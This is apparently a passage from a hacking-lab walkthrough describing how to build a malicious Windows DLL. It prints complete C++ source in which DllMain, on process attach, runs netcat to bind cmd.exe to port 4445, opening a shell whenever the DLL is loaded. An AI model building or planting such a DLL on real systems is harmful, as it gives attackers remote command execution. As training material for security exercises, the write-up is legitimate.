 ![](/img/1551751673669.png)

This creates the project, and if I expand the Source Files folder on the
right, I'll see three .cpp files. I'll open up `dllmain.cpp`, and add
two lines. First I'll add `#include <stdlib.h>`, which gives me access
to the `system` function. The, under the case for `DLL_PROCESS_ATTACH`,
I'll add the a call to start another `nc` listener. `DLL_PROCESS_ATTACH`
is the case when a process loads the DLL, so I can have my shell running
on dll load.



    // dllmain.cpp : Defines the entry point for the DLL application.
    #include "stdafx.h"
    #include <stdlib.h>

    BOOL APIENTRY DllMain( HMODULE hModule,
                           DWORD  ul_reason_for_call,
                           LPVOID lpReserved
                         )
    {
        switch (ul_reason_for_call)
        {
        case DLL_PROCESS_ATTACH:
                    system("c:\\windows\\system32\\spool\\drivers\\color\\nc.exe -e cmd.exe -lvp 4445");
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
        }
        return TRUE;
    }
